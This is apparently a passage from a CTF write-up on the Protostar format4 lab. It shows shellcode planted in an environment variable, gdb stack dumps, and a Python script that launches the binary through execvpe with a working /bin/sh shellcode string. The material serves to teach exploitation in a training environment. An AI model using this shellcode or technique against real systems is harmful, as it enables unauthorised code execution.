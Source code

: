 In previous [posts](./2020-05-18-protostar-stack7.md) it was described how to include shellcode as part of the payload and hijack the control flow of the program to execute it. In this case, it is possible to do so as well, since the stack is executable (`nx` protection is disabled), as long as it can fit in the requested string (which size is of 0x200 characters). There will be cases when this is not possible, so an alternative strategy will be shown.

As mentioned in this [post](./2020-05-09-protostar-stack5.md), the stack contains environment variables from where the binary was executed. If we add a variable to the environment containing the shellcode it will be present in the stack of any executable ran afterward from that shell.

```
user@protostar:~$ export shellcode="shellcode can go here"
```

By analyzing the stack with `gdb` it can be seen that the variable is present:

```
(gdb) x/1000s $esp
...
0xbffff963:     "/opt/protostar/bin/format4"
0xbffff97e:     "USER=user"
0xbffff988:     "SSH_CLIENT=192.168.86.100 50956 22"
0xbffff9ab:     "MAIL=/var/mail/user"
0xbffff9bf:     "SHLVL=1"
0xbffff9c7:     "HOME=/home/user"
0xbffff9d7:     "SSH_TTY=/dev/pts/1"
0xbffff9ea:     "LOGNAME=user"
0xbffff9f7:     "_=/usr/bin/gdb"
0xbffffa06:     "COLUMNS=130"
0xbffffa12:     "shellcode=shellcode can go here"
0xbffffa32:     "TERM=xterm-256color"
```

Depending on the environment variables present, the position of the shellcode variable can move, making it harder to choose an address to redirect execution to. But what if all the environment variables were controlled? This is possible since the execution of the binary is controlled locally. So a function such as [`execvpe`](https://linux.die.net/man/3/execvpe) can be used to only pass our shellcode variable and have a more deterministic behavior.

The following python script was used to achieve this:

```python=
import os

environ = dict(S="\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80")

args = ['./format4']

os.execvpe('./format4', args, environ) 
```

The used shellcode was authored by bolonobolo, and the source can be found [here](https://www.exploit-db.com/exploits/47513).

By evaluating the stack with gdb again, it is possible to see that the only variable present now is the shellcode.
